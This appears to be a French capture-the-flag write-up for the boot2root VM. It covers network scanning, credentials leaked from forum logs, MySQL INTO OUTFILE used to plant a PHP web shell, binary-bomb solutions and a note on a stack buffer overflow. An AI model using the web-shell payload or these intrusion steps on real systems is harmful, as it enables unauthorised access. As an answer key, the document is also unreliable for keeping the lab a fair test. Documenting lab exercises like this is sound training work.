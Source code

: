 # Etape 1:
Pour récuperer l'adresse IP de la VM on lance un nmap pour scanner le réseau
```bash
nmap -A 172.16.96.1/24
```
Quand nous lancon boot2root, la vm ouvre un port https.
Avec un dirbuster nous avous a trouver que le path /forum et /webmail exist.
Dans le forum nous trouvons des logs qui nous permette de leaker le mot de passe de lmezard:!q\]Ej?*5K5cy*AJ
Avec l'email de lmezard nous arrivons a nous connecter a sa boite mail ou un mail avec les identifiant root de mysql sont present root:Fg-'kKXBj87E:aJ$
Dans mysql nous pouvont ecrire dans le system avec un commande du style OUTFILE.
Nous pouvons trouver l'arborescence de mylittleforum sur son github. Finalement il semble que le dossier templates_c soit accessible en ecriture.
On peut upload un shell avec cette command.
SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE "/var/www/forum/templates_c/shell.php"
nous pouvons telecharger les identifiant du ftp dans /home/LOOKATME
lmezard
G!@M6f4Eatau{sF"

# Etape2:
Avec ces identifiant nous pouvont ensuite telecharger une tarball fun
Cette tarball contenait un dossier ft_fun qui conténer a son tour des fichier pcap.
Dans chaque fichier pcap il y avait un comment qui préciser l'order de ce fichier par rapport au autre. 
Une fois reconstituer ces fichier formée un code source C qui une fois compiler demander de hasher un mot de passe.
Un fois hasher, le resultat consituer le mot de passe de laurie.
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# Etape3:
Pour récuper le mot de passe de thor nous devons desarmorcer des bombe succésive.
Pour desamorcé la premiere phase il suffit de rentré la chaine
Public speaking is very easy.

Pour la deuxieme phase, il suffit juste de rentré une suite de nombre dont chaque element est le resultat de sa position+1 * le nombre precedent
La suite commence par 1

1 2 6 24 120 720

La troisieme phase est une fonction qui attend trois argument de type int, char, int.
Le premier int est une sousfonction qui compare le deuxieme est troisieme argument.
C'est une jump table.
Au total voici les solution:
0 q 777
1 b 214
2 b 755
3 k 251
4 o 160
5 t 458
6 v 780
7 b 524

Pour la quatrieme phase, il suffit de trouver le nombre qui quand on le rentre dans la fonction fibonacci le resultat est 55 en decimale.
Ce nombre est 9.

Pour la cinquieme phase, il faut reussit a traduire l'input saisie vers "giants" avec l'encodage suivant "isrveawhobpnutfg".
Equivalemnt a xlatb en assembler.
Le code fait juste un bitwise and sur les character. Il y a donc plusieur solution.

Pour la sixième phase, La bombe regarde d'abort si dans la sequence il n'y a pas de doublon est que les nombre sont entre 1-6.
En fonction des nombre il arrange une liste chainer dont les indice des noeuds sont egaux a ceux des nombre rentré.
Les noeuds de la link list sont comme suit:

struct Node {
	int number;
	int order;
	struct Node* next;
};

Il itere dans la suite pour voir les number sont en ordre décroissant. Si il le sont la bombe peux etres desamorcé ;).

0x804b26c <node1>:      0x000000fd      0x00000001      0x0804b260
0x804b260 <node2>:      0x000002d5      0x00000002      0x0804b254
0x804b254 <node3>:      0x0000012d      0x00000003      0x0804b248
0x804b248 <node4>:      0x000003e5      0x00000004      0x0804b23c
0x804b23c <node5>:      0x000000d4      0x00000005      0x0804b230
0x804b230 <node6>:      0x000001b0      0x00000006      0x00000000

4 2 6 3 1 5

A noter que dans cette exercise il y a une partie cacher avec des arbre binaire.
il suffit de rajouter austinpowers a la quatrieme phase

9 austinpowers 

Le dernier exercice utilise cette arbre binaire.
Pour desamorcé la phase cache il faut rentré le nombre 1001

                         36         
              /                      \
             8                        50
         /       \                /        \
        6         22             45         107
       / \       /  \           /  \       /   \
      1   7     20   35        40   47    99   1001

Apres plusieur essaie, et une visite sur le slack qui nous informe qu'il faut swap les deux dernier character, le mot de passe est le suivant:
thor
Publicspeakingisveryeasy.126241207201b2149opekmq426135

# Etape4:
On a un fichier turtle qui donne des indications pour la librairie turtle de python.
On fait un script python pour nettoyer le fichier et on passe les instructions au module turtle.py.
Sa nous affiche un mot de passe "SLASH" sous forme de dessin que l'on doit hasher en md5
```bash
echo -n "SLASH" | md5
646da671ca01bb5d84dbb5fb2238dc8e
```

# Etape5:
Nous pouvons voir que sur la machine l'ASLR est desactivé.
```bash
cat /proc/sys/kernel/randomize_va_space -> $00
```
La stack est executable.
```bash
readelf -a exploit_me | grep GNU_STACK -> RWE
```
Le programe copy argv[1] avec strcpy. Il suffit donc de faire un shellcode sans null byte.
